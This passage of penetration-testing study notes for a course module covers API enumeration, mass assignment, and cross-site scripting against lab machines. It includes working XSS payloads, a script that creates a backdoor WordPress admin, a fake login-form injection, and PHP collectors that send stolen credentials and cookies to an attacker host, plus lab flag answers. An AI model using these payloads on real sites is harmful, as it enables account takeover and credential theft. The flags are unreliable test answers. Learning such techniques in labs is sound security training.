gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
*`{GOBUSTER}` is a placeholder Gobuster substitutes with each wordlist entry, then appends the version suffix from the pattern file. Expect hits like:*
```
/books/v1             (Status: 200) [Size: 235]
/users/v1             (Status: 241)
```

**Step 2: Probe a discovered endpoint directly**
```bash
curl -i http://192.168.50.16:5002/users/v1
```
*Look for a JSON body listing user objects, often including an `admin` account worth further investigation.*

**Step 3: Brute force sub-paths under a specific user**
```bash
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```
*Look for entries returning `405 METHOD NOT ALLOWED` rather than `404`. That means the path exists, just not for the HTTP method (`GET`) Gobuster/curl defaults to.*

**Step 4: Try a different HTTP method against that path**
```bash
curl -i http://192.168.50.16:5002/users/v1/admin/password
```
*A `405` here confirms the endpoint exists but wants a different verb. Worth trying `POST`/`PUT` explicitly next.*

> 🔍 Full breakdown of why 405 and 404 mean genuinely different things at the routing level: [[Web Applications (Breakdowns)#Why 405 (not 404) means the path exists, just the wrong HTTP method|Command Breakdowns]]

**Step 5: Register a new (possibly privileged) account**
```bash
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' \
  -H 'Content-Type: application/json' \
  http://192.168.50.16:5002/users/v1/register
```
*If the API doesn't validate/strip an unexpected `admin` field from the request body, you may have just registered yourself as an administrator. A classic mass-assignment / logic flaw.*

**Step 6: Log in as the new account and grab the auth token**
```bash
curl -d '{"password":"lab","username":"offsec"}' \
  -H 'Content-Type: application/json' \
  http://192.168.50.16:5002/users/v1/login
```
*Look for a JWT (JSON Web Token, a compact signed string the server issues after login that proves who you are on future requests, without the server needing to store your session) in the response (`auth_token`).*

**Step 7: Use the token to change another user's password**
```bash
curl -X 'PUT' 'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth <token>' \
  -d '{"password": "pwned"}'
```
*No error response usually means success. Confirm by logging in as `admin` with the new password.*

> 🔗 **HackTricks** Web API Pentesting: [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/network-services-pentesting/pentesting-web/web-api-pentesting.md), general API pentesting methodology (auth vs authz, where auth means authentication, confirming who you are, and authz means authorization, checking what you're actually allowed to do, privilege-level testing). Checked directly: it doesn't have a dedicated mass-assignment section specifically, worth knowing before expecting one.
> *(No dedicated "API Security" page found on PayloadsAllTheThings after checking, only OWASP-adjacent references. Its closest relevant content, JSON Web Token and OAuth Misconfiguration, live as separate top-level folders if a JWT/OAuth angle comes up instead.)*

Once you've mapped some API calls manually via `curl`, the same requests can be recreated inside Burp (`--proxy 127.0.0.1:8080` on the curl command, or built directly in Repeater) so they're saved to Burp's **Target → Site map** for later reference.

> ⚡ **Modern tool:** [[Kiterunner]] automates exactly the Step 1 guessing game above, but with wordlists built from real OpenAPI/Swagger specs instead of a generic directory wordlist, and it tries the correct HTTP method per route (catching a `405`-only endpoint like Step 3's automatically, not just `GET`).

> 📋 Generalized copy-pasteable commands for this technique: [[Web Applications#API Enumeration|Command Appendix]]
> 🧭 Quick lookup: [[Web Applications (Decision Tree)|Decision Tree]]

#### Tags: #APIEnumeration #RESTAPI #GobusterPattern #MassAssignment #JWT #BurpSiteMap

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Walkthrough VM #1. Flag found inspecting HTML source of offsecwp? | **OS{d54933b7f533f95e431b0b69646c6a11}** |
| Walkthrough VM #2. Name of the item belonging to `admin` on a second API sharing `/users/v1`'s pattern? | **bookTitle22** |
| Exercise VM #1. Maps-themed site flag? | **OS{59484d103cc6d2f22fcfb278fa3ab74d}** |
| Exercise VM #2. Flag found via URL-level inspection? | **OS{d0870a786e4a5880b9b898afee140965}** |
| Exercise VM #3. Flag found via non-standard HTTP headers? | **OS{359809f5c4cc7e4f7fc3b2eb6e0cd05c}** |
| Exercise VM #4. Flag found reviewing HTML/CSS/JS ("the three web amigos")? | **OS{ac0842ea59731fc9b836871853a1cbb2}** |

#### Tags: #Lab #Quiz #Module8

---

## 8.4. Cross-Site Scripting

XSS exploits a browser's trust in a website by injecting content that the browser then executes in the context of *another* user's session. Missing input sanitization turned into a serious client-side attack vector.

#### Tags: #XSS

---

### 8.4.1. Stored vs Reflected XSS Theory

- **Stored (Persistent) XSS.** The payload is saved server-side (DB, cache) and served to *every* visitor of the affected page. Common in forums, comments, product reviews. One vuln attacks *all* users.
- **Reflected XSS.** The payload lives in a crafted request/link. The app reflects it straight back into the response. Only affects whoever submits that specific request or clicks that specific link. Common in search fields and error messages.
- **DOM-based XSS.** A variant of either, where the vulnerability manifests purely in how the page's Document Object Model (the browser's internal live map of every element on the page, the thing JavaScript reads and modifies) gets modified client-side with user-controlled data, rather than in the server's rendered HTML.


*Stored XSS: one injection, unlimited future victims, no link to click needed.*


*Reflected XSS: one payload, one specific victim, requires them to actually click the crafted link.*

All variants execute in the *victim's browser*, under that browser's session. Impact ranges from session hijacking to forced redirects to full account takeover.

#### Tags: #StoredXSS #ReflectedXSS #DOMBasedXSS #PersistentXSS

---

### 8.4.2. JavaScript Refresher

A quick primer since XSS payloads are JavaScript:

```javascript
function multiplyValues(x,y) {
  return x * y;
}

let a = multiplyValues(3, 5)
console.log(a)
```
*JavaScript is loosely typed, meaning you don't have to declare what kind of data a variable will hold when you create it. `a`'s type (`Number`) is inferred from what's passed in, not declared up front.*

**Try it yourself:** open Firefox's **Web Console** (Web Developer menu, or `Ctrl+Shift+K`) on `about:blank` (avoids clutter from a page's own scripts) and paste code directly in to test it.

#### Tags: #JavaScriptBasics #BrowserConsole #LooseTyping

---

### 8.4.3. Identifying XSS Vulnerabilities

Look for input fields whose value later gets echoed back unsanitized into a page. Test with special characters and see what survives:
```
< > ' " { } ;
```
- `<` `>` are HTML tag delimiters
- `{` `}` are JavaScript function/block delimiters
- `'` `"` are string delimiters
- `;` is a statement terminator

If the app doesn't strip or **encode** these (HTML encoding, e.g. `&lt;` for `<`, or URL/percent encoding, e.g. `%20` for a space), it may be interpreting your input as *code* rather than *data*. That's the core of an XSS bug. Which characters you actually need depends on *where* your input lands in the page. Inside a `<div>` vs. inside an existing `<script>` block need different payload shapes.

> 📋 Generalized copy-pasteable commands for this technique: [[Web Applications#XSS Testing and Basic Payloads|Command Appendix]]
> 🧭 Quick lookup: [[Web Applications (Decision Tree)|Decision Tree]]

#### Tags: #XSSSpecialCharacters #HTMLEncoding #URLEncoding #InputSanitization

---

### 8.4.4. Basic XSS

Demonstrated against an OffSec WordPress instance running the **Visitors** plugin (logs visitor IP/User-Agent, vulnerable to stored XSS).

**Root cause (from the plugin's own source):**
```php
'useragent' => $_SERVER['HTTP_USER_AGENT'],
```
saved straight to the DB, then rendered back out with zero sanitization:
```php
<td>'.$record->useragent.'</td>
```
Since the `User-Agent` HTTP header is entirely attacker-controlled, it's a direct stored-XSS injection point.

**Step 1: Capture a request in Burp and send it to Repeater**
With Burp proxying and Intercept off, browse to the target, find the request in **Proxy → HTTP History**, right-click → **Send to Repeater**.

**Step 2: Replace the User-Agent value with a test payload**
```
<script>alert(42)</script>
```
Send the request. *A `200 OK` response means the payload is now stored in the WordPress database.*

**Step 3: Trigger it as the admin**
Log in as `admin`/`password` at `/wp-login.php`, then visit the Visitors plugin dashboard:
```
http://offsecwp/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php
```
*A JavaScript alert popup showing `42` confirms the payload executed in the admin's browser.*

> 📸 Screenshot: the `alert(42)` popup firing on the admin's screen, a genuinely satisfying one to capture

> Even though this example was found via source review (white-box), the same bug is just as discoverable black-box, by fuzzing HTTP headers and observing what comes back unfiltered.

#### Tags: #StoredXSSExample #VisitorsPlugin #UserAgentInjection #BurpRepeaterXSS

---

### 8.4.5. Privilege Escalation via XSS

**Cookie theft doesn't work here.** Checked via Firefox DevTools → **Storage → Cookies**: WordPress's session cookies all carry the **HttpOnly** flag (blocks JS access, meaning JavaScript running on the page including an injected XSS payload cannot read those cookie values at all), so a simple "steal the cookie" XSS payload is a dead end. (The **Secure** flag, for reference, would instead restrict a cookie to HTTPS-only transmission, a separate protection.)

**New angle: make the admin's browser create a new admin account for us**, using the same stored-XSS injection point.


*The whole point of routing through minify → encode → eval: smuggling a multi-line script through a single HTTP header value without special characters breaking it in transit.*

**WordPress nonces and CSRF:** a **nonce** is a per-request random token WordPress uses to block CSRF. These are attacks where a victim is tricked (e.g. via a disguised link) into unknowingly submitting a request that performs an action on a site they're already logged into. A nonce blocks *blind* CSRF, but doesn't stop us here, because our stored XSS payload runs *inside* the legitimate admin session and can fetch a valid nonce itself before acting.

**Step 1: Fetch a valid nonce via JS, inside the victim's session**
```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

**Step 2: Use the nonce to create a backdoor admin account**
```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

**Step 3: Minify the combined JS**
Paste both snippets combined into **JS Compress** (or similar minifier) to collapse it to one line. This makes it easier to smuggle through a single header value.

**Step 4: Encode the minified JS to a `String.fromCharCode` sequence** (`String.fromCharCode()` is a built-in JavaScript method that takes a list of plain numbers and converts them back into text characters. Representing the script as a list of numbers hides any suspicious strings from simple pattern-matching filters.)
```javascript
function encode_to_javascript(string) {
  var input = string
  var output = '';
  for(pos = 0; pos < input.length; pos++) {
    output += input.charCodeAt(pos);
    if(pos != (input.length - 1)) { output += ","; }
  }
  return output;
}

let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Run this in the browser console (same trick as 8.4.2) against your minified payload to get a comma-separated list of character codes.

> 🔗 **CyberChef** (has "To Charcode"/"From Charcode" operations): [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef/) can do this same string-to-char-code encoding (and the matching decode) without writing a custom JS helper.

**Step 5: Wrap the encoded payload and fire it as the User-Agent via curl**
```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(<encoded_values_here>))</script>" --proxy 127.0.0.1:8080
```
*With Burp's Intercept **on**, inspect the request, then **Forward** it and turn Intercept back off.*

**Step 6: Trigger execution and confirm**
Log in as the real admin, open the Visitors plugin dashboard (this executes the stored payload), then check **Users** in the WordPress admin sidebar.
*A new `attacker` account with the `administrator` role confirms the privilege escalation succeeded.*

> 📸 Screenshot: the WordPress Users list showing the new `attacker` account with the Administrator role, good evidence for a report

🔁 **Similar to:** the "automated detection vs. manual confirmation" theme from [[07. Vulnerability Scanning#7.3.2. Working with NSE Scripts|7.3.2]] (Nmap NSE flags a vuln, `curl` confirms it) shows up again here in reverse. This time XSS is the *exploitation* step, and logging in as the new admin account is the *confirmation* step.

> 🔗 **PayloadsAllTheThings** XSS Injection: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md), extensive XSS payload/cheat-sheet (different injection contexts, filter bypasses, polyglots). Worth bookmarking for boxes where the basic `<script>alert()</script>` test gets filtered.
> 🔗 **ippsec.rocks**: [ippsec.rocks](https://ippsec.rocks/) is worth searching for a video walkthrough of WordPress stored-XSS-to-admin chains like this one *(linking to the tool itself, its search-query deep-links are JS-driven and can't be verified by an automated fetch)*.

From here, the natural next step (covered in a later module) is using admin access to upload a custom WordPress plugin containing a web shell, for full host access.

#### Tags: #XSSPrivilegeEscalation #WordPressNonce #CSRF #JWTAuth #EvalExploit #HttpOnlyCookie

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Walkthrough VM #1. Which other HTTP header is similarly vulnerable (based on the Visitors plugin source)? | **X-Forwarded-For** |
| Walkthrough VM #2. JS method that interprets a string as code and executes it? | **`eval()`** |
| Capstone (Module Exercise VM #1). Add admin account, embed web shell in a plugin, upgrade to full reverse shell, flag in `/tmp/`? | **OS{76c142c78b2c618f22f06db7b6e7497c}** |

#### Tags: #Lab #Quiz #Module8

---

### 8.4.6. XSS Types in Practice, and Finding the Vulnerable Parameter

8.4.1 covered the Stored/Reflected/DOM distinction conceptually. Here's each with a working cookie-theft payload and the tell that identifies it:

| Type | Where payload lives | Who triggers it | Detection method |
|------|---------------------|----------------|-----------------|
| **Stored** | Saved in the database (comment, profile field, etc.) | Any user who views the page later | Submit and browse the page that shows stored content |
| **Reflected** | URL parameter or POST form body, echoed immediately in the response | Only whoever clicks a crafted URL | Manipulate URL params or POST fields directly |
| **DOM** | Client-side JavaScript reads from a source (URL hash, `document.location`) and writes unsanitised to a sink (`innerHTML`, `document.write()`) | Whoever opens a crafted URL, no server round-trip | View page source vs browser-rendered DOM, the payload never appears in the raw HTML response |

**Stored and Reflected**, same cookie-theft payload works for both, the difference is entirely where it lives between injection and execution:
```javascript
<script>alert(document.cookie)</script>
```

**DOM XSS needs a different payload shape.** `<script>` blocks inserted via `innerHTML` often don't re-execute, so use an event handler instead:
```javascript

```
`src=""` causes an immediate load failure, the `onerror` handler fires and executes the payload.

> 🔍 **Worth remembering generally:** DOM XSS sources and sinks come in pairs. Common sources: `document.URL`, `document.location.hash`, `window.location.search`, `document.referrer`. Common sinks: `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout(string)`. If client-side JS reads a URL fragment and passes it to any of those sinks unencoded, the injection point is DOM-based regardless of what the server does. A WAF that strips `<script>` from the HTTP response never sees this kind of injection at all, since the payload never reaches the server. PayloadsAllTheThings has a full source/sink table.

**Finding the vulnerable parameter when a page has several inputs:** generate a real URL with visible GET parameters (e.g. after registering: `?fullname=test&username=test&password=123&email=test%40email.com`), change each value individually, and watch for reflection in the page (error messages, "input received" displays). Test the reflecting parameter directly:
```
http://TARGET:PORT/?email=<script>alert(1)</script>
```

> 🔧 **Technique:** for XSS discovery at scale rather than one parameter at a time, feed a payload wordlist through ffuf and match on the response containing your marker: `ffuf -w xss-payloads.txt:FUZZ -u 'http://TARGET/page?param=FUZZ' -mr "alert"`. See 8.2.5 (Ffuf) below for the general value-fuzzing pattern this borrows from.

> 📸 Screenshot: `alert(document.cookie)` firing with the flag visible as the cookie value, one for each of stored/reflected/DOM if you can capture all three

#### Tags: #StoredXSS #ReflectedXSS #DOMXSS #CookieTheft #XSSDiscovery #Module8

---

### 8.4.7. Phishing via XSS

Instead of stealing a cookie directly, inject a fake login form into the vulnerable page. A URL sent to a victim shows a convincing "please log in" prompt, served from the *legitimate* domain, so the usual "check the address bar" advice doesn't help them.

**Step 1: find a working payload.** Plain `<script>` may be filtered, quote-breaking variants often aren't:
```javascript
'><script>alert(1)</script>
"><script>alert(1)</script>
'>
```

**Step 2: inject a form via `document.write()`, and remove the real one so the page looks clean:**
```javascript
document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPORT><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
`document.getElementById('urlform').remove()` strips the real form from the DOM, the `id` depends on the target page, inspect its source first. Wrap the whole thing to close out any surrounding attribute/tag context and comment out the leftover markup:
```javascript
'><script>document.write('...');document.getElementById('urlform').remove();</script><!--
```

**Step 3: stand up a PHP credential-capture server.** Redirecting the victim back afterward is what makes this invisible, without it they'd see a blank page and know something's wrong:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://TARGETIP/phishing/index.php");  // bounce back, victim doesn't notice
    fclose($file);
    exit();
}
?>
```
```bash
mkdir -p /tmp/tmpserver && cd /tmp/tmpserver
php -S 0.0.0.0:8080
```

**Step 4: URL-encode the full payload and deliver it.** The captured request shows up in the PHP server log (`GET /?username=admin&password=...&submit=Login`), then log in with the harvested credentials for the flag.

> 📸 Screenshot: PHP server terminal showing the captured username/password in the request log, then the flag after logging in with them

> 🔍 **Worth remembering generally:** this only works because the fake form is served from the real target domain. The victim sees the correct domain in the address bar, so URL-checking advice fails them completely. The only real defense is verifying the *form action* URL points somewhere legitimate, and almost nobody checks that.

#### Tags: #XSSPhishing #CredentialHarvesting #DocumentWrite #PHPServer #Module8

---

### 8.4.8. Session Hijacking via Cookie Exfiltration

8.4.5 already covers cookie theft blocked by `HttpOnly`. When a target's session cookie *isn't* protected that way, exfiltrate it out-of-band instead of just `alert()`-ing it locally.

**Step 1: find the vulnerable field**, using a unique callback URL per field to pinpoint which one fires:
```javascript
"><script src=http://PWNIP:PWNPORT/script.js></script>
```
with `nc -nvlp 8080` listening. The field whose submission triggers a `GET /script.js` hit is the vulnerable one.

**Step 2: the exfil script itself**, `new Image().src` is the standard vehicle here since it fires a plain GET with no CORS restriction, no XMLHttpRequest, and no visible UI effect:
```javascript
new Image().src='http://PWNIP:PWNPORT/index.php?c='+document.cookie;
```

**Step 3: catch it server-side**, splitting on `;` since `document.cookie` returns multiple `name=value` pairs concatenated:
```php
<?php
if (isset($_GET['c'])) {
    foreach (explode(";", $_GET['c']) as $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

**Step 4: use the stolen value.** In Firefox DevTools → Storage → Cookies, add a matching cookie entry manually and refresh, now authenticated as the victim.

> 📸 Screenshot: DevTools Storage tab with the manually-added cookie, then the page refreshed and authenticated as the victim

> 🔍 **Worth remembering generally:** `new Image().src` is the general-purpose out-of-band exfiltration vehicle for XSS, and it shows up again for blind SQLi and SSRF callback confirmation, not just cookie theft. It works in almost every browser context, including headless browsers and HTML-rendering mail clients, precisely because it never triggers a same-origin check.

#### Tags: #SessionHijacking #CookieTheft #NewImage #OutOfBand #Module8

---

### 8.4.9. Blind XSS Skills Assessment

**Scenario:** a security blog where comments are "approved by an admin" before appearing, meaning an automated reviewer bot opens every submission. You never see the execution happen, so fingerprinting and exfiltration both have to go through an out-of-band side channel.

**Step 1: fingerprint the vulnerable field** with a unique filename per field so the incoming request tells you which one fired:
```javascript
'><script src="http://PWNIP:PWNPORT/FieldName"></script>
```
Submit one variant per field (skip `name`/`email`, they're usually sanitised differently and rarely injectable), then watch `nc -nvlp 9001`. A hit shows a `HeadlessChrome` User-Agent, that's the tell an automated bot, not a human, opened the page:
```
GET /WebsiteField HTTP/1.1
User-Agent: Mozilla/5.0 ... HeadlessChrome/91.0.4472.101 Safari/537.36
```

> 🔍 **Worth remembering generally:** the headless Chrome UA is the fingerprint for admin review bots generally, any scenario where submitted content is "reviewed by an admin" (HTB, bug bounty, real pentests) almost certainly means one. The unique-filename-per-field technique is the standard blind XSS fingerprinting method, since you can't observe execution directly, you use the outbound HTTP request as your side channel.

**Step 2-3: same cookie-steal infrastructure as 8.4.8** (`script.js` with `new Image().src`, the PHP `explode()` catcher), submit the payload in the fingerprinted field, then wait for the bot's review cycle.

**Step 4: the flag arrives as part of the exfiltrated cookie string itself**, not a separate value:
```
GET /index.php?c=wordpress_test_cookie=...; flag=HTB{...}
```



> 📸 Screenshot: PHP server terminal showing the full exfiltrated cookie string including the `flag=HTB{...}` value

#### Tags: #BlindXSS #AdminBot #HeadlessChrome #SkillsAssessment #Module8

---

## 8.5. Wrapping Up

This module covered identifying and enumerating common web application vulnerabilities: API misconfigurations (mass assignment via an unexpected `admin` field) and stored XSS. Then it chained a stored XSS bug all the way to full administrative access via a crafted HTTP request. The common denominator across both: **trusting user-controlled input without validating or sanitizing it.**

#### Tags: #WebAppAttacksSummary

---

## 📋 Command Reference: Web Enumeration & XSS
[[Linux Methodology#Step 2: Web Application Enumeration]]

```bash
# Web server fingerprinting
nmap -p80 -sV <target>
nmap -p80 --script=http-enum <target>
whatweb http://<target>

# Directory / file brute force
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -t 10
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,bak

# API path brute force (with version-number pattern file containing {GOBUSTER}/v1 etc.)
gobuster dir -u http://<target>:<port> -w /usr/share/wordlists/dirb/big.txt -p pattern

# robots.txt / sitemap check
curl http://<target>/robots.txt

# Manual API probing
curl -i http://<target>/<endpoint>
curl -X PUT -d '{"key":"value"}' -H 'Content-Type: application/json' http://<target>/<endpoint>
curl --proxy 127.0.0.1:8080 http://<target>/<endpoint>   # route through Burp

# Quick XSS probe payloads (test in an input field, then view source/output)
<script>alert(1)</script>
"><script>alert(1)</script>
'>

# XSS payload delivery via a header (e.g. User-Agent) using curl + Burp
curl -i http://<target> --user-agent "<script>alert(1)</script>" --proxy 127.0.0.1:8080

# Cookie theft, out-of-band (fires silently, no dialog)
<script>new Image().src='http://<kali-ip>:<port>/index.php?c='+document.cookie</script>

# Ffuf: directory/vhost/parameter/value fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://<target>/FUZZ
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://<target>/ -H 'Host: FUZZ.<domain>' -ac
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<target>/page?FUZZ=key' -fs <baseline>

# Route any tool through Burp/ZAP to see what it actually sends
curl https://<target> --proxy http://127.0.0.1:8080 -k
```

> 🔗 For a much larger set of ready-made XSS payloads beyond the quick probes above: **PayloadsAllTheThings** XSS Injection: [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md). For API probing: **HackTricks** Web API Pentesting: [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/network-services-pentesting/pentesting-web/web-api-pentesting.md).

---

## 🎯 Related Boxes to Practice

Real HTB machines matching this module's XSS content, verified against actual writeups (not guessed).

- **[Cat](https://0xdf.gitlab.io/2025/07/05/htb-cat.html)** (HTB, Linux, Medium): stored XSS in a cat-registration feature steals a non-HttpOnly admin cookie, chained into SQLi and RCE. Directly comparable to [[08. Introduction to Web Application Attacks#8.4.5. Privilege Escalation via XSS|8.4.5]]'s cookie-theft-vs-HttpOnly discussion. Also relevant to [[10. SQL Injection Attacks|SQL Injection Attacks]].
- **Alert** (HTB, Linux, Easy): XSS in a "Contact Us" form, plus a file-upload path.
- **Guardian** (HTB, Linux, Hard): XSS, XSS-via-cookie, and CSRF, a harder combo of the exact concepts in [[08. Introduction to Web Application Attacks#8.4.5. Privilege Escalation via XSS|8.4.5]] (WordPress nonces/CSRF).
- **Trickster** (HTB, Linux, Medium): XSS.

*None of these four were individually cross-checked against the current TJ_Null/NetSecFocus list (the sheet only partially loaded during research), so treat them as "real, sourced XSS boxes" rather than confirmed "OSCP-like," unlike the TJ_Null-confirmed picks in other modules.*

**Web enumeration boxes** (dir busting as the key discovery step):
- **[[8. Zenphoto|Zenphoto]]** (PG Practice, Linux, done ✅): Root of port 80 was a blank placeholder. Gobuster found `/test/` containing the full Zenphoto 1.4.1.4 install. Without dir busting, the box is completely invisible. Core lesson: dir busting is non-optional even when root looks empty. Technique: [[HTTP - Directory Brute]].

**WordPress plugin file upload RCE** (unauthenticated upload + extension bypass):
- **[[9. Nukem|Nukem]]** (PG Practice, Linux, done ✅): WordPress Simple File List 4.2.2 (CVE-2020-36847). `ee-upload-engine.php` accepts unauthenticated uploads but the endpoint silently returns HTTP 500 without plugin-specific POST fields (`eeSFL_ID`, `eeSFL_FileUploadDir`, `eeSFL_Timestamp`, `eeSFL_Token`). Step two: rename `.png` → `.php` via `ee-file-engine.php` using `eeFileOld` + `eeFileAction=Rename|name.php` + `X-Requested-With` + `Referer` headers. Read the exploit Python source to find field names — curl alone won't reveal them. Two key lessons: (1) always verify upload landed (HEAD request on the file URL) before attempting rename; (2) inspect the plugin's JS (`ee-footer.js`) for the real AJAX parameters. Technique: [[WordPress - Simple File List Upload]].

**Proxy-workflow boxes** (Burp/ZAP as the accelerant, not the vulnerability itself):
- **[Validation](https://0xdf.gitlab.io/2022/01/22/htb-validation.html)** (HTB, Linux, Easy): SQL injection via an intercepted POST parameter, Repeater is the primary tool for developing the payload iteratively.
- **[Poison](https://0xdf.gitlab.io/2018/09/08/htb-poison.html)** (HTB, Linux, Medium): LFI via a GET parameter plus log poisoning, Repeater for parameter manipulation.
- **[NodeBlog](https://0xdf.gitlab.io/2022/05/28/htb-nodeblog.html)** (HTB, Linux, Easy): XML injection via POST body, Intercept + Repeater for crafting the XXE payload.
- **[Injection](https://www.hackthebox.com/machines/injection)** (HTB, Linux, Easy): Spring Boot SSTI via POST body, Repeater for iterating payloads without touching the browser form each time.

#### Tags: #RelatedBoxes #HTBPractice #Module8

---

## **Outstanding Sections**
- [x] **8.1 Web Application Assessment Methodology**: done
- [x] **8.2 Web Application Assessment Tools**: done (Nmap, Wappalyzer, Gobuster, Burp Suite, Ffuf, Burp Decoder/payload processing + ZAP, HTB supplementary merged in)
- [x] **8.3 Web Application Enumeration**: done (page debugging, headers/sitemaps, API abuse)
- [x] **8.4 Cross-Site Scripting**: done (theory, JS refresher, identification, basic XSS, privesc, HTB supplementary merged in: types-in-practice, phishing, session hijacking, blind XSS skills assessment)
- [x] **8.5 Wrapping Up**: done
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
